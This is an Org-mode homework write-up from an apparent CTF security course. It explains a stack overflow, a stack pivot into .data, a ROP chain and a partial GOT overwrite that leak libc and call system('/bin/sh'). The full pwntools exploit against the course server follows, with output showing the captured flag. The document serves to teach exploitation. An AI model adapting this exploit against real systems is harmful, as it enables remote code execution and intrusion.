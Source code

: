 #+OPTIONS: ':nil *:t -:t ::t <:t H:3 \n:nil ^:t arch:headline author:t
#+OPTIONS: broken-links:nil c:nil creator:nil d:(not "LOGBOOK") date:t e:t
#+OPTIONS: email:nil f:t inline:t num:t p:nil pri:nil prop:nil stat:t tags:t
#+OPTIONS: tasks:t tex:t timestamp:t title:t toc:t todo:t |:t
#+TITLE: hw3
#+AUTHOR: 0410788 CHING-WEN CHENG
#+LANGUAGE: en
#+SELECT_TAGS: export
#+EXCLUDE_TAGS: noexport
#+CREATOR: Emacs 25.2.2 (Org mode 9.0.9)
#+LATEX_CLASS: article
#+LATEX_CLASS_OPTIONS:
#+LATEX_HEADER:
#+LATEX_HEADER_EXTRA:
#+DESCRIPTION:
#+KEYWORDS:
#+SUBTITLE:
#+LATEX_COMPILER: pdflatex

* Homework3
** readme [150]
   First we use checksec and find out that NX is enable, no PIE, partial RELRO. 
   By observing the source code, there is a buffer of size =0x20= but it read =0x30= 
   to the buffer, so we might overflow it, but we only have 2 qwords of space to use. 
   Therefore, we move(write) the ROP chain to =.data= section by rewrite rbp to =.data= 
   and continuous return to the read function inside main function. Each time it call read, 
   it will write 4 ROP gadget and a new rbp address and return to read function. After the 
   ROP chain is set, we return to the ROP chain.

   The main idea of ROP chain is: leak libc address to bypass ASLR, overwrite got to call system. 
   But we only have =printf= & =read=, and =printf= required at least =0x2128= bytes of stack, we 
   can't use =printf= as long as our stack is on =.date= section with size of =0x1000=. because of 
   alignment, the lowest 1.5bytes will be the same as the offset in =libc.so.6=. We overwrite the 
   lowest byte of =read= got to =0x80= to call =write=, then we can leak libc and compute the address 
   of =system=.

*** Code
#+BEGIN_SRC python :results output :python  ~/pyenv/bin/python3 :exports both
from pwn import *

host = "csie.ctf.tw"
port  = 10135

# host = "127.0.0.1"
# port = 8888

payload = b"A" * 0x20
buf1 = 0x602000 - 0x1a0
buf2 = buf1 + 0x30
buf3 = buf1 + 0x60
buf4 = buf1 + 0x90
buf5 = buf1 + 0xc0
buf6 = buf1 + 0xf0
buf7 = buf1 + 0x120

printf_plt = 0x4004b0
read_plt = 0x4004c0

pop_rdi = 0x4006b3
pop_rsi_r15 = 0x4006b1
pop_pop = 0x4006b0
main_read = 0x40062b
ret = 0x400499

printf_got = 0x601018
read_got = 0x601020

system_off = 0x45390
printf_off = 0x55800
write_off = 0xf7280
resolve = 0x4004c6


context.arch = "amd64"

rop = flat([payload, buf1, main_read])
#set read got to write
rop0 = flat([pop_rsi_r15, read_got, 0,
             pop_pop, buf2 , main_read])
rop1 = flat([pop_rdi, 0, read_plt,
             pop_pop, buf3, main_read])

#leak
rop2 = flat([pop_rdi, 1, read_plt,
             pop_pop, buf4, main_read])

#read system to printf got
rop3 = flat([pop_rsi_r15, printf_got, 0,
             pop_pop, buf5 , main_read])
rop4 = flat([pop_rdi, 0, resolve,
             pop_pop, buf6, main_read])

#read shellcode gadget
rop5 = flat([pop_rsi_r15, buf7+0x10, 0,
             pop_pop, buf7 , main_read])
rop6 = flat([pop_rdi, 0, read_plt,
             pop_pop, buf1-0x30, main_read])
rop7 = flat([b"A" * 0x20, buf1 , ret])


r = remote(host, port)
r.recvuntil(":")
r.send(rop)
r.send(rop0)
r.send(rop1)
r.send(rop2)
r.send(rop3)
r.send(rop4)
r.send(rop5)
r.send(rop6)
r.send(rop7)
r.send(b"\x80")
k = bytes.hex(r.recv()[0:7][::-1])
write_addr = int(k, 16)
libc_base =  write_addr - write_off
system_addr = libc_base + system_off
print("system addr:", hex(system_addr))
ropx0 = flat([system_addr, write_addr - 0x60,
              libc_base + 0x20740, libc_base + 0x6fe70
              ,0,0])
r.send(ropx0)
ropx = flat([pop_rdi, buf7+0x28, printf_plt,
             b"/bin/sh\x00",  ret, ret])
r.send(ropx)
r.sendline("cat /home/`whoami`/flag")
f = r.recvline()
print(f)
#r.interactive()

#+END_SRC

#+RESULTS:
: [x] Opening connection to csie.ctf.tw on port 10135
: [x] Opening connection to csie.ctf.tw on port 10135: Trying 140.112.31.96
: [+] Opening connection to csie.ctf.tw on port 10135: Done
: system addr: 0x7f7235060390
: b'FLAG{CAN_YOU_R34D_MY_M1ND?}\n'
: [*] Closed connection to csie.ctf.tw port 10135
